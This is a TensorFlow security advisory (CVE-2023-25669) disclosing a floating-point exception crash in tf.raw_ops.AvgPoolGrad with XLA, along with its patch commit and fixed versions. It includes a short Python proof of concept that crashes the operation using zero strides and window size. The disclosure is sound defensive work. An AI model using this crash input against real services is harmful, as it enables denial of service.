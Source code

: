 ## TFSA-2023-019: FPE in AvgPoolGrad with XLA

### CVE Number
CVE-2023-25669

### Impact
If the stride and window size are not positive for `tf.raw_ops.AvgPoolGrad`, it can give an FPE.

```python
import tensorflow as tf
import numpy as np

@tf.function(jit_compile=True)
def test():
   y = tf.raw_ops.AvgPoolGrad(orig_input_shape=[1,0,0,0], grad=[[[[0.39117979]]]], ksize=[1,0,0,0], strides=[1,0,0,0], padding="SAME", data_format="NCHW")
   return y

print(test())
```

### Patches
We have patched the issue in GitHub commit [1295ae4dbb52fe06b19733b0257e2340d7b63b8d](https://github.com/tensorflow/tensorflow/commit/1295ae4dbb52fe06b19733b0257e2340d7b63b8d).

The fix will be included in TensorFlow 2.12. We will also cherrypick this commit on TensorFlow 2.11.1.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx of 360 AIVul Team
